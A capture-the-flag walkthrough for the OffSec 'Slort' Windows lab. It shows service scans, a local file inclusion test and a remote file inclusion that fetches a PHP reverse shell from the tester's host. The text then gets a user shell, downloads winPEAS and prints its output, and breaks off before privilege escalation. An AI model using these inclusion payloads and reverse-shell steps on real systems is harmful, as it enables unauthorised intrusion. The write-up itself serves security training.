

# Slort

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 20
Number of Flags: 2
Lab Description:
In this lab, you will exploit a remote file inclusion vulnerability in a web application. You will then escalate 
privileges by leveraging misconfigured permissions on an executable that operates under the system job scheduler. 
This exercise enhances your skills in vulnerability exploitation and privilege escalation techniques.
Released: 3 Aug 2020
```

Machine link: [https://portal.offsec.com/machine/slort-269/overview/details](https://portal.offsec.com/machine/slort-269/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ export TARGET_IP=192.168.212.53

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-17 11:58 +0100
Nmap scan report for 192.168.212.53
Host is up (0.035s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.212.53:4443/dashboard/
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.212.53:8080/dashboard/
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-17T11:01:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.98 seconds
```

We have seven main services running and available:

- FileZilla ftpd 0.9.41 beta on port 21
- Microsoft Windows RPC on port 135
- NetBIOS Session Service on port 139
- SMB running on port 445
- MariaDB 10.3.24 or later on port 3306
- Apache httpd 2.4.43 on port 4443 and port 8080
- Unknown service on port 5040
- Another unknown service on port 7680

### SMB Discovery

Next, we check for general information and shares with NetExec

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nxc smb $TARGET_IP                             
[*] Initializing SMB protocol database
SMB         192.168.212.53  445    SLORT            [*] Windows 10 / Server 2019 Build 19041 x64 (name:SLORT) (domain:slort) (signing:False) (SMBv1:None)
                              
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nxc smb $TARGET_IP -u '' -p '' --shares
SMB         192.168.212.53  445    SLORT            [*] Windows 10 / Server 2019 Build 19041 x64 (name:SLORT) (domain:slort) (signing:False) (SMBv1:None)
SMB         192.168.212.53  445    SLORT            [-] slort\: STATUS_ACCESS_DENIED 
SMB         192.168.212.53  445    SLORT            [-] Error enumerating shares: Error occurs while reading from remote(104)

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nxc smb $TARGET_IP -u Guest -p '' --shares
SMB         192.168.212.53  445    SLORT            [*] Windows 10 / Server 2019 Build 19041 x64 (name:SLORT) (domain:slort) (signing:False) (SMBv1:None)
SMB         192.168.212.53  445    SLORT            [-] slort\Guest: STATUS_ACCOUNT_DISABLED 
```

No available shares but some OS information.

### Check the web sites

Browsing to either port 4443 or 8080 redirects us to `http://192.168.212.53:<port>/dashboard/` and shows an XAMPP version 7.4.6 info page:



Scanning for interesteing files and directories with `gobuster` we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html,pl -u http://$TARGET_IP:8080
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.212.53:8080
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,pl,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 1046]
/index.php            (Status: 200) [Size: 7576]
/img                  (Status: 200) [Size: 1219]
/site                 (Status: 200) [Size: 12541]
/Index.php            (Status: 200) [Size: 7576]
/applications.html    (Status: 200) [Size: 3607]
/examples             (Status: 503) [Size: 1060]
/licenses             (Status: 403) [Size: 1205]
/Applications.html    (Status: 200) [Size: 3607]
/dashboard            (Status: 200) [Size: 7576]
/%20                  (Status: 403) [Size: 1046]
/IMG                  (Status: 200) [Size: 1219]
/Site                 (Status: 200) [Size: 12541]
/INDEX.php            (Status: 200) [Size: 7576]
/*checkout*           (Status: 403) [Size: 1046]
/*checkout*.php       (Status: 403) [Size: 1046]
/*checkout*.pl        (Status: 403) [Size: 1046]
/*checkout*.html      (Status: 403) [Size: 1046]
/*checkout*.txt       (Status: 403) [Size: 1046]
/Img                  (Status: 200) [Size: 1219]
/phpmyadmin           (Status: 403) [Size: 1205]
/webalizer            (Status: 403) [Size: 1046]
/*docroot*            (Status: 403) [Size: 1046]
/*docroot*.php        (Status: 403) [Size: 1046]
/*docroot*.txt        (Status: 403) [Size: 1046]
/*docroot*.html       (Status: 403) [Size: 1046]
/*docroot*.pl         (Status: 403) [Size: 1046]
/*.pl                 (Status: 403) [Size: 1046]
/*.txt                (Status: 403) [Size: 1046]
/*.php                (Status: 403) [Size: 1046]
/*                    (Status: 403) [Size: 1046]
/*.html               (Status: 403) [Size: 1046]
/con                  (Status: 403) [Size: 1046]
/con.php              (Status: 403) [Size: 1046]
/con.txt              (Status: 403) [Size: 1046]
/con.pl               (Status: 403) [Size: 1046]
/con.html             (Status: 403) [Size: 1046]
/Dashboard            (Status: 200) [Size: 7576]
/http%3A.txt          (Status: 403) [Size: 1046]
/http%3A              (Status: 403) [Size: 1046]
/http%3A.pl           (Status: 403) [Size: 1046]
/http%3A.html         (Status: 403) [Size: 1046]
/http%3A.php          (Status: 403) [Size: 1046]
/**http%3a.php        (Status: 403) [Size: 1046]
/**http%3a.txt        (Status: 403) [Size: 1046]
/**http%3a.html       (Status: 403) [Size: 1046]
/**http%3a.pl         (Status: 403) [Size: 1046]
/**http%3a            (Status: 403) [Size: 1046]
/*http%3A             (Status: 403) [Size: 1046]
/*http%3A.pl          (Status: 403) [Size: 1046]
/*http%3A.php         (Status: 403) [Size: 1046]
/*http%3A.txt         (Status: 403) [Size: 1046]
/*http%3A.html        (Status: 403) [Size: 1046]
/xampp                (Status: 200) [Size: 774]
/.html                (Status: 403) [Size: 1046]
/aux                  (Status: 403) [Size: 1046]
/aux.html             (Status: 403) [Size: 1046]
/aux.pl               (Status: 403) [Size: 1046]
/aux.php              (Status: 403) [Size: 1046]
/aux.txt              (Status: 403) [Size: 1046]
/**http%3A            (Status: 403) [Size: 1046]
/**http%3A.pl         (Status: 403) [Size: 1046]
/**http%3A.php        (Status: 403) [Size: 1046]
/**http%3A.txt        (Status: 403) [Size: 1046]
/**http%3A.html       (Status: 403) [Size: 1046]
/%C0.pl               (Status: 403) [Size: 1046]
/%C0.html             (Status: 403) [Size: 1046]
/%C0.txt              (Status: 403) [Size: 1046]
/%C0                  (Status: 403) [Size: 1046]
/%C0.php              (Status: 403) [Size: 1046]
/SITE                 (Status: 200) [Size: 12541]
/server-status        (Status: 403) [Size: 1205]
/%3FRID%3D2671.php    (Status: 403) [Size: 1046]
/%3FRID%3D2671        (Status: 403) [Size: 1046]
/%3FRID%3D2671.pl     (Status: 403) [Size: 1046]
/%3FRID%3D2671.html   (Status: 403) [Size: 1046]
/%3FRID%3D2671.txt    (Status: 403) [Size: 1046]
/devinmoore*          (Status: 403) [Size: 1046]
/devinmoore*.html     (Status: 403) [Size: 1046]
/devinmoore*.pl       (Status: 403) [Size: 1046]
/devinmoore*.php      (Status: 403) [Size: 1046]
/devinmoore*.txt      (Status: 403) [Size: 1046]
/200109*.php          (Status: 403) [Size: 1046]
/200109*              (Status: 403) [Size: 1046]
/200109*.txt          (Status: 403) [Size: 1046]
/200109*.html         (Status: 403) [Size: 1046]
/200109*.pl           (Status: 403) [Size: 1046]
/*sa_                 (Status: 403) [Size: 1046]
/*sa_.php             (Status: 403) [Size: 1046]
/*sa_.html            (Status: 403) [Size: 1046]
/*sa_.pl              (Status: 403) [Size: 1046]
/*sa_.txt             (Status: 403) [Size: 1046]
/*dc_                 (Status: 403) [Size: 1046]
/*dc_.html            (Status: 403) [Size: 1046]
/*dc_.pl              (Status: 403) [Size: 1046]
/*dc_.txt             (Status: 403) [Size: 1046]
/*dc_.php             (Status: 403) [Size: 1046]
/%D8.pl               (Status: 403) [Size: 1046]
/%CF.php              (Status: 403) [Size: 1046]
/%CF                  (Status: 403) [Size: 1046]
/%CF.txt              (Status: 403) [Size: 1046]
/%CF.html             (Status: 403) [Size: 1046]
/%CF.pl               (Status: 403) [Size: 1046]
/%CE                  (Status: 403) [Size: 1046]
/%D8.txt              (Status: 403) [Size: 1046]
/%D8.php              (Status: 403) [Size: 1046]
/%D8.html             (Status: 403) [Size: 1046]
/%D8                  (Status: 403) [Size: 1046]
/%CE.txt              (Status: 403) [Size: 1046]
/%CE.pl               (Status: 403) [Size: 1046]
/%CE.php              (Status: 403) [Size: 1046]
/%CE.html             (Status: 403) [Size: 1046]
/%CD                  (Status: 403) [Size: 1046]
/%CD.php              (Status: 403) [Size: 1046]
/%CD.txt              (Status: 403) [Size: 1046]
/%CD.pl               (Status: 403) [Size: 1046]
/%CD.html             (Status: 403) [Size: 1046]
/%CC                  (Status: 403) [Size: 1046]
/%CC.php              (Status: 403) [Size: 1046]
/%CC.pl               (Status: 403) [Size: 1046]
/%CC.txt              (Status: 403) [Size: 1046]
/%CB                  (Status: 403) [Size: 1046]
/%CB.pl               (Status: 403) [Size: 1046]
/%CC.html             (Status: 403) [Size: 1046]
/%CB.txt              (Status: 403) [Size: 1046]
/%CB.php              (Status: 403) [Size: 1046]
/%CB.html             (Status: 403) [Size: 1046]
/%CA                  (Status: 403) [Size: 1046]
/%CA.php              (Status: 403) [Size: 1046]
/%D0                  (Status: 403) [Size: 1046]
/%CA.html             (Status: 403) [Size: 1046]
/%D0.txt              (Status: 403) [Size: 1046]
/%D0.html             (Status: 403) [Size: 1046]
/%D0.pl               (Status: 403) [Size: 1046]
/%D0.php              (Status: 403) [Size: 1046]
/%CA.txt              (Status: 403) [Size: 1046]
/%CA.pl               (Status: 403) [Size: 1046]
/%D1                  (Status: 403) [Size: 1046]
/%D1.php              (Status: 403) [Size: 1046]
/%D1.html             (Status: 403) [Size: 1046]
/%D1.txt              (Status: 403) [Size: 1046]
/%D1.pl               (Status: 403) [Size: 1046]
/%D7                  (Status: 403) [Size: 1046]
/%D7.php              (Status: 403) [Size: 1046]
/%D7.txt              (Status: 403) [Size: 1046]
/%D7.html             (Status: 403) [Size: 1046]
/%D7.pl               (Status: 403) [Size: 1046]
/%D6.php              (Status: 403) [Size: 1046]
/%D6                  (Status: 403) [Size: 1046]
/%D5                  (Status: 403) [Size: 1046]
/%D5.php              (Status: 403) [Size: 1046]
/%D4.pl               (Status: 403) [Size: 1046]
/%D4.html             (Status: 403) [Size: 1046]
/%D6.txt              (Status: 403) [Size: 1046]
/%D4.php              (Status: 403) [Size: 1046]
/%D3                  (Status: 403) [Size: 1046]
/%D4.txt              (Status: 403) [Size: 1046]
/%D5.txt              (Status: 403) [Size: 1046]
/%D3.txt              (Status: 403) [Size: 1046]
/%D5.html             (Status: 403) [Size: 1046]
/%D4                  (Status: 403) [Size: 1046]
/%D6.html             (Status: 403) [Size: 1046]
/%D3.html             (Status: 403) [Size: 1046]
/%D3.pl               (Status: 403) [Size: 1046]
/%D2.pl               (Status: 403) [Size: 1046]
/%D2.php              (Status: 403) [Size: 1046]
/%D2.txt              (Status: 403) [Size: 1046]
/%D5.pl               (Status: 403) [Size: 1046]
/%D6.pl               (Status: 403) [Size: 1046]
/%D3.php              (Status: 403) [Size: 1046]
/%D2                  (Status: 403) [Size: 1046]
/%D2.html             (Status: 403) [Size: 1046]
/%C8.html             (Status: 403) [Size: 1046]
/%C1.php              (Status: 403) [Size: 1046]
/%C9.txt              (Status: 403) [Size: 1046]
/%C8                  (Status: 403) [Size: 1046]
/%C1.pl               (Status: 403) [Size: 1046]
/%C9                  (Status: 403) [Size: 1046]
/%C9.html             (Status: 403) [Size: 1046]
/%C8.txt              (Status: 403) [Size: 1046]
/%C1                  (Status: 403) [Size: 1046]
/%C8.pl               (Status: 403) [Size: 1046]
/%C1.txt              (Status: 403) [Size: 1046]
/%C9.pl               (Status: 403) [Size: 1046]
/%C1.html             (Status: 403) [Size: 1046]
/%C8.php              (Status: 403) [Size: 1046]
/%C9.php              (Status: 403) [Size: 1046]
/%C2                  (Status: 403) [Size: 1046]
/%C2.php              (Status: 403) [Size: 1046]
/%C2.txt              (Status: 403) [Size: 1046]
/%C2.pl               (Status: 403) [Size: 1046]
/%C2.html             (Status: 403) [Size: 1046]
/%C7                  (Status: 403) [Size: 1046]
/%C7.php              (Status: 403) [Size: 1046]
/%C7.html             (Status: 403) [Size: 1046]
/%C7.txt              (Status: 403) [Size: 1046]
/%C7.pl               (Status: 403) [Size: 1046]
/%C6.txt              (Status: 403) [Size: 1046]
/%C5.pl               (Status: 403) [Size: 1046]
/%C4                  (Status: 403) [Size: 1046]
/%C4.html             (Status: 403) [Size: 1046]
/%C4.txt              (Status: 403) [Size: 1046]
/%C4.php              (Status: 403) [Size: 1046]
/%C4.pl               (Status: 403) [Size: 1046]
/%C5                  (Status: 403) [Size: 1046]
/%C6                  (Status: 403) [Size: 1046]
/%C6.html             (Status: 403) [Size: 1046]
/%C6.php              (Status: 403) [Size: 1046]
/%C6.pl               (Status: 403) [Size: 1046]
/%C5.txt              (Status: 403) [Size: 1046]
/%C5.php              (Status: 403) [Size: 1046]
/%C5.html             (Status: 403) [Size: 1046]
/%C3.php              (Status: 403) [Size: 1046]
/%C3.pl               (Status: 403) [Size: 1046]
/%C3.html             (Status: 403) [Size: 1046]
/%C3                  (Status: 403) [Size: 1046]
/%D9                  (Status: 403) [Size: 1046]
/%D9.php              (Status: 403) [Size: 1046]
/%D9.txt              (Status: 403) [Size: 1046]
/%C3.txt              (Status: 403) [Size: 1046]
/%D9.html             (Status: 403) [Size: 1046]
/%D9.pl               (Status: 403) [Size: 1046]
/%DF                  (Status: 403) [Size: 1046]
/%DF.php              (Status: 403) [Size: 1046]
/%DF.txt              (Status: 403) [Size: 1046]
/%DE                  (Status: 403) [Size: 1046]
/%DF.pl               (Status: 403) [Size: 1046]
/%DE.php              (Status: 403) [Size: 1046]
/%DE.html             (Status: 403) [Size: 1046]
/%DF.html             (Status: 403) [Size: 1046]
/%DE.pl               (Status: 403) [Size: 1046]
/%DE.txt              (Status: 403) [Size: 1046]
/%DD                  (Status: 403) [Size: 1046]
/%DD.php              (Status: 403) [Size: 1046]
/%DD.txt              (Status: 403) [Size: 1046]
/%DD.pl               (Status: 403) [Size: 1046]
/%DD.html             (Status: 403) [Size: 1046]
/%DB                  (Status: 403) [Size: 1046]
/%DB.php              (Status: 403) [Size: 1046]
/%DB.pl               (Status: 403) [Size: 1046]
/%DB.txt              (Status: 403) [Size: 1046]
/%DB.html             (Status: 403) [Size: 1046]
/login%3f             (Status: 403) [Size: 1046]
/login%3f.pl          (Status: 403) [Size: 1046]
/login%3f.php         (Status: 403) [Size: 1046]
/login%3f.txt         (Status: 403) [Size: 1046]
/login%3f.html        (Status: 403) [Size: 1046]
/%22julie%20roehm%22  (Status: 403) [Size: 1046]
/%22julie%20roehm%22.html (Status: 403) [Size: 1046]
/%22julie%20roehm%22.php (Status: 403) [Size: 1046]
/%22julie%20roehm%22.txt (Status: 403) [Size: 1046]
/%22james%20kim%22    (Status: 403) [Size: 1046]
/%22james%20kim%22.html (Status: 403) [Size: 1046]
/%22julie%20roehm%22.pl (Status: 403) [Size: 1046]
/%22james%20kim%22.php (Status: 403) [Size: 1046]
/%22james%20kim%22.pl (Status: 403) [Size: 1046]
/%22james%20kim%22.txt (Status: 403) [Size: 1046]
/%22britney%20spears%22 (Status: 403) [Size: 1046]
/%22britney%20spears%22.php (Status: 403) [Size: 1046]
/%22britney%20spears%22.txt (Status: 403) [Size: 1046]
/%22britney%20spears%22.html (Status: 403) [Size: 1046]
/%22britney%20spears%22.pl (Status: 403) [Size: 1046]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

Browsing to `http://192.168.212.53:4443/site` redirects to `http://192.168.212.53:4443/site/index.php?page=main.php`


The URL ending `?page=main.php` points to a possible file inclusion vulnerability.

Testing local file inclusion with `http://192.168.212.53:4443/site/index.php?page=../../../../../Windows/win.ini` we get

```text
; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1 
```

Starting a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.212.53] 50465

```

And then sharing Ivan Šincek's php-reverse-shell.php, we can try to include it with `http://192.168.212.53:4443/site/index.php?page=http://192.168.45.167:8000/php_reverse_shell.php` to trigger the reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.212.53] 50465
SOCKET: Shell has connected! PID: 6032
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>whoami
slort\rupert

C:\xampp\htdocs\site>
```

### Get the user flag

Next, we try to find the user flag

```bat
C:\xampp\htdocs\site> where /R C:\Users local.txt
C:\Users\rupert\Desktop\local.txt

C:\xampp\htdocs\site> type C:\Users\rupert\Desktop\local.txt
5<REDACTED>c

C:\xampp\htdocs\site>
```

### Enumeration for privilege escalation

Time for some enumeration. First we check user privileges and groups

```bat
C:\xampp\htdocs\site> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\xampp\htdocs\site> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    

C:\xampp\htdocs\site>
```

We transfer WinPeas to the machine

```bat
C:\xampp\htdocs\site>curl http://192.168.45.167/winPEASany.exe -o winPEASany.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9.7M  100  9.7M    0     0   9.7M      0  0:00:01  0:00:01 --:--:-- 9860k

C:\xampp\htdocs\site>
```

Then we check service information

```bat
C:\xampp\htdocs\site>winpeasany.exe servicesinfo
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help                                                                                                                                                             
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((                                                                                                                                                   
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                               
      ((((((((((((((**********/##########(((((((((((((                                                                                                                                            
    ((((((((((((********************/#######(((((((((((                                                                                                                                           
    ((((((((******************/@@@@@/****######((((((((((                                                                                                                                         
    ((((((********************@@@@@@@@@@/***,####((((((((((                                                                                                                                       
    (((((********************/@@@@@%@@@@/********##(((((((((                                                                                                                                      
    (((############*********/%@@@@@@@@@/************((((((((                                                                                                                                      
    ((##################(/******/@@@@@/***************((((((                                                                                                                                      
    ((#########################(/**********************(((((                                                                                                                                      
    ((##############################(/*****************(((((                                                                                                                                      
    ((###################################(/************(((((                                                                                                                                      
    ((#######################################(*********(((((                                                                                                                                      
    ((#######(,.***.,(###################(..***.*******(((((                                                                                                                                      
    ((#######*(#####((##################((######/(*****(((((                                                                                                                                      
    ((###################(/***********(##############()(((((                                                                                                                                      
    (((#####################/*******(################)((((((                                                                                                                                      
    ((((############################################)((((((                                                                                                                                       
    (((((##########################################)(((((((                                                                                                                                       
    ((((((########################################)(((((((                                                                                                                                        
    ((((((((####################################)((((((((                                                                                                                                         
    (((((((((#################################)(((((((((                                                                                                                                          
        ((((((((((##########################)(((((((((                                                                                                                                            
              ((((((((((((((((((((((((((((((((((((((                                                                                                                                              
                 ((((((((((((((((((((((((((((((                                                                                                                                                   

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own devices and/or with the device owner's permission.                                                                                                                  
                                                                                                                                                                                                  
  WinPEAS-ng by @hacktricks_live                                                                                                                                                                  

       /---------------------------------------------------------------------------------\                                                                                                        
       |                             Do you like PEASS?                                  |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 |                                                                                                        
       |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                        
       |         Respect on HTB            :     SirBroccoli                             |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |                                 Thank you!                                      |                                                                                                        
       \---------------------------------------------------------------------------------/                                                                                                        
                                                                                                                                                                                                  
  [+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

 You can find a Windows local PE Checklist here: https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html
   Creating Dynamic lists, this could take a while, please wait...                                                                                                                                
   - Loading sensitive_files yaml definitions file...
   - Loading regexes yaml definitions file...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list (local only)...
   - Creating disabled users list...
   - Admin users list...
   - Creating AppLocker bypass list...
   - Creating files/directories list for search...
        [skipped, file search is disabled]


�����������������������������������͹ Services Information �������������������������������������

����������͹ Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services                                                                                                                                                                                 
    ssh-agent(OpenSSH Authentication Agent)[C:\WINDOWS\System32\OpenSSH\ssh-agent.exe] - Disabled - Stopped
    Agent to hold private keys used for public key authentication.
   =================================================================================================                                                                                              

    VGAuthService(VMware, Inc. - VMware Alias Manager and Ticket Service)["C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"] - Auto - Running
    Alias Manager and Ticket Service
   =================================================================================================                                                                                              

    VMTools(VMware, Inc. - VMware Tools)["C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"] - Auto - Running
    Provides support for synchronizing objects between the host and guest operating systems.
   =================================================================================================                                                                                              

    VMwareCAFCommAmqpListener(VMware CAF AMQP Communication Service)["C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\CommAmqpListener.exe"] - Manual - Stopped
    VMware Common Agent AMQP Communication Service
   =================================================================================================                                                                                              

    VMwareCAFManagementAgentHost(VMware CAF Management Agent Service)["C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe"] - Manual - Stopped
    VMware Common Agent Management Agent Service
   =================================================================================================                                                                                              


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_46cf2: GenericExecute (Start/Stop)
    ConsentUxUserSvc_46cf2: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_46cf2: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_46cf2: GenericExecute (Start/Stop)
    DevicePickerUserSvc_46cf2: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_46cf2: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_46cf2: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_46cf2: GenericExecute (Start/Stop)
    UdkUserSvc_46cf2: GenericExecute (Start/Stop)
    UnistoreSvc_46cf2: GenericExecute (Start/Stop)
    UserDataSvc_46cf2: GenericExecute (Start/Stop)
    WpnUserService_46cf2: GenericExecute (Start/Stop)

����������͹ Looking if you can modify any service registry
� Check if you can modify the registry of a service https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services-registry-modify-permissions
    [-] Looks like you cannot change the registry of any service...

����������͹ Checking write permissions in PATH folders (DLL Hijacking)
� Check for DLL Hijacking in PATH folders https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dll-hijacking
    C:\WINDOWS\system32
    C:\WINDOWS
    C:\WINDOWS\System32\Wbem
    C:\WINDOWS\System32\WindowsPowerShell\v1.0\
    C:\WINDOWS\System32\OpenSSH\

����������͹ OEM privileged utilities & risky components
    None of the supported OEM utilities were detected.

����������͹ Kernel drivers with weak/legacy signatures
� Legacy cross-signed drivers (pre-July-2015) can still grant kernel execution on modern Windows https://research.checkpoint.com/2025/cracking-valleyrat-from-builder-secrets-to-kernel-rootkits/
�   Unable to enumerate kernel services

����������͹ KernelQuick / ValleyRAT rootkit indicators
�   No KernelQuick-specific registry indicators were found

       /---------------------------------------------------------------------------------\                                                                                                        
